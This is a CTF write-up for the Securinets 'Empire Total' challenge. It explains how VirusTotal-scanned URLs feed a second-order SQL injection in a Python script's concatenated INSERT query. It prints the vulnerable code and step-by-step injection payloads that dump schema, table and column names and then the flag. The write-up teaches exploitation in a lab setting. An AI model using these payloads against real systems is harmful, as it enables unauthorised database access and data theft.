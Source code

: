 # **Empire Total (1000pts) (7 Solves)**

![TASK](https://imgur.com/rGcoI7o.png)

This task was really so creative and i had so fun solving it , but i can't deny that it was painful :( after reading the description we can say that we aim to dump the database of the website (maybe SQL injection who knows) and fortunately we have the source code so let's download it and begin our trip xD

After Visiting the website we find a tool based on Virus Total API , understanding the functionality of the website is really necessary for solving the task, we will cover it in details later, but as a first thought we give an ip address to the website and it will shows Virus Total stats about it

![TASK](https://imgur.com/k7ScCjX.png)

![TASK](https://imgur.com/bjRXPJT.png)

After cloning the project here is its structure
> git clone https://github.com/mohamedaymenkarmous/virustotal-api-html

![TASK](https://imgur.com/alxzV41.png)

let's take a look at index.php , since the code is really too long i will only put the important parts, as we can see after some configurations and Recaptcha setting, all the SQL queries are prepared statements so there is no way to perform SQL injection but we can notice the execution of the 
**shell_exec** function :D Interesting hmmm 

![TASK](https://imgur.com/A1kiMAa.png)

**shell_exec** is executing some python script with a scanned ip argument ,maybe manipulating it will give us something useful 

```php
$command = "../VirusTotal.py '$scanned_ip'";
$output = shell_exec($command);
```
But unfortunately there's too much restriction on our input :( it's impossible to bypass the filter_var here and the JS restrictions (if you can bpass it just tell me xD )

```php
 if(isset($_POST) && !empty($_POST)){
  $scanned_ip=isset($_POST['ip']) && !empty($_POST['ip'])  && !is_array($_POST['ip']) ? $_POST['ip'] : "";
  if(!$scanned_ip){header("Location: /?invalid_ip");exit();}
  if (filter_var($scanned_ip, FILTER_VALIDATE_IP)) {
  } else {header("Location: /?invalid_ip");exit();}
```
Let's proceed , it seems that the index.php is pretty safe ,let's take a look at the VirusTotal.py script 

![TASK](https://imgur.com/ytcYYQQ.png)

OMG :'( 499 lines , that was so discouraging @Emperors :( but we needed that flag to have the 10th place xD anyway after scrolling around and reading the code , we can somehow understand the behaviour of the website,
when we enter the ip address it asks the Virus Total API for the results and then there's the persistence functionality that saves the results in the database and then when we enter the same ip address again it will loads
the results from the database .

So if we can control the results maybe we will have the opportunity to perform an SQL injection ? I got stuck in this part for a long time and after the help of the admin ( Thank you @Emperors <3 ) i found something interesting :D

before we proceed here's a vulnerable function to SQL injection that saves the results of urls section in the database (line 417 in VirusTotal.py)

```python
  def persistURLs(self,selected_ips,ip_report_filtered):
    attr="detected_urls"
    table_name="vt_scanned_urls_table"
    newAttr=self.AttrSubstitution[attr] if attr in self.AttrSubstitution else attr
    selected_urls=self.findPersistedIP(selected_ips[0]['id'],table_name)
    selected_urls_filtered=[]
    for selected_url in selected_urls:
      selected_urls_filtered.append(selected_url['url'])
    if newAttr in ip_report_filtered:
     for url in ip_report_filtered[newAttr]:
      print(url['URL'])
      if url['URL'] not in selected_urls_filtered:
        try:
          self.CursorRW.execute("INSERT INTO "+table_name+" (ip_id,url,detections,scanned_time) VALUES ('"+str(selected_ips[0]['id'])+"','"+url['URL']+"','"+url['Detections']+"','"+url['Scanned']+"')")
          self.DBRW.commit()
          self.resetSQL()
        except Exception as e:
          print("INSERT INTO "+table_name+" (ip_id,url,detections,scanned_time) VALUES ('"+str(selected_ips[0]['id'])+"','"+url['URL']+"','"+url['Detections']+"','"+url['Scanned']+"')")
          print("EXCEPTION: ",e)
          self.resetSQL()
```
## Exploitation ##

So the idea is that if we go to VirusTotal website (https://www.virustotal.com/) and scan a url ,and then go back to our challenge website and scan the url's ip
we will find that the url we scanned in VirusTotal website will appear , it's pretty confusing i know so let's have an example

1. We go to Virus Total website and scan for any url for example :( in my case i launched a web server on my VPS and used it here )

> http://100.26.206.184/?u=Just testing for the writeup :p

![TASK](https://imgur.com/mGOQ1tQ.png)

2. Now we go back to the challenge website and scan the ip address

![TASK](https://i.imgur.com/N7ymSRT.jpg)

Yeeees ! it's appearing in the results so we now have the control over these values in the urls section of the results.

Now here is our scenario , if we look to the vulnerable function **persistURLs** in VirusTotal.py we can notice the injection in this query (line 430)

> INSERT INTO "+table_name+" (ip_id,url,detections,scanned_time) VALUES ('"+str(selected_ips[0]['id'])+"','"+url['URL']+"','"+url['Detections']+"','"+url['Scanned']+"')

We have control over the **url['URL']** parameter (the url we scan in VirusTotal Website) so it's now an SQL injection in INSERT INTO values, but we have some constraints :

1. The url encoding **%20** that will be interpreted with the SQL query so we have to find another way in our payload instead of white spaces which is a well known bypass:  **/\*\*/**
2. The second thing faced me when i was solving the challenge , we can't use **-- -** to equilibrate the SQL query so we will have to find a solution to equilibrate it

In order to test the injection locally i have created this small script that connects to my local DB and executes the same query, you can find it **[HERE](https://github.com/kahla-sec/CTF-Writeups/blob/master/Securinets%20Prequals%202k20/Empire%20Total/test.py)** 

Finally I opted to this solution, here is the URL we will scan :
> http://100.26.206.184/?u=',(select/**/1),(select/**/2)),('102','a

The complete SQL query that will be executed is  :
> INSERT INTO detected_urls (ip_id,url,detections,scanned_time) VALUES ('2','100.26.206.184/?u=',(select 1),(select 2)),('102','a','15','yes')

Let's try it now , we first scan it in VirusTotal :

![TASK](https://imgur.com/3L7lmrs.png)

And now let's scan the IP in the challenge website  :

![TASK](https://imgur.com/f2CRd7H.png)

It's fetched successfully, let's scan the ip another time now to check if our injection succeeded or not, we must see 1,2 in the output :

![TASK](https://i.imgur.com/U3SEcaV.jpg)

Bingo ! our injection worked , we only have to dump the entire Database now and repeat the same procedure:

1. Dump DB names :

> http://100.26.206.184/?u=',(select/**/gRoUp_cOncaT(0x7c,schema_name,0x7c)/**/fRoM/**/information_schema.schemata),(select/**/2)),('102','a

![TASK](https://imgur.com/AJvdMXB.png)

DBName : MySecretDatabase 

2. Dump Tables and Columns :

> http://100.26.206.184/?u=',(select/**/gRoUp_cOncaT(0x7c,table_name,0x7c)/**/fRoM/**/information_schema.tables),(select/**/2)),('102','a

> http://100.26.206.184/?u=',(select/**/gRoUp_cOncaT(0x7c,column_name,0x7c)/**/fRoM/**/information_schema.columns),(select/**/2)),('103','a

![TASK](https://imgur.com/raYuUmI.png)

**Table Name** : SecretTable & **Column Name** : secret_value

3. And finally let's have our beloved flag :

> http://100.26.206.184/?u=',(select/**/group_concat(0x7c,secret_value,0x7c)/**/fRoM/**/MySecretDatabase.SecretTable),(select/**/2)),('109','a

![TASK](https://imgur.com/FanWbUZ.png)

Yees We did it , **FLAG** : Securinets{EmpireTotal_Pwn3D_fr0m_Th3_0th3r_S1de}

I have really liked the idea of the challenge, it's really creative , i want to thanks Securinets technical team for these fun tasks and awesome CTF and of course the author @TheEmperors.

I hope you liked the writeup if you have any questions don't hesitate to contact me **Twitter** : @BelkahlaAhmed1 
